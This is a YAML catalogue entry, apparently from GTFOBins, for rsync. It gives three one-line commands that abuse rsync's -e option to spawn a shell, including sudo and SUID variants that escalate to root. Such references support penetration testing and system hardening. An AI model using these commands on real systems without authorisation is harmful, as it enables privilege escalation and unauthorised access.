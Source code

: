 ```yaml
---
name: rsync
functions:
  shell:
    - code: rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  sudo:
    - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
  suid:
    - code: ./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
---
```


